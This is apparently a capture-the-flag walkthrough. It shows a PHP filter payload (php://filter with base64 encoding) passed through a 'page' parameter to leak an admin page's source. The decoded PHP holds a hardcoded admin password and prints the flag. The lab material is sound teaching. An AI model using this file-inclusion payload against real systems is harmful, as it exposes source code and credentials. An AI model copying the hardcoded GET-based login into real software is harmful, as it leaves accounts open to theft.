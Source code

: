 visit: https://meow.ctfd.nckuctf.org/?page=php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dadmin

copy the content in the page and decode it by base64 decode

get:

```php
<h1>Admin Panel</h1>
<form>
    <input type="text" name="username" value="admin">
    <input type="password" name="password">
    <input type="submit" value="Submit">
</form>

<?php
$admin_account = array("username" => "admin", "password" => "lab_password");
if (
    isset($_GET['username']) && isset($_GET['password']) &&
    $_GET['username'] === $admin_account['username'] && $_GET['password'] === $admin_account['password']
) {
    echo "<h1>LOGIN SUCCESS!</h1><p>".getenv('FLAG')."</p>";
}

?>
```
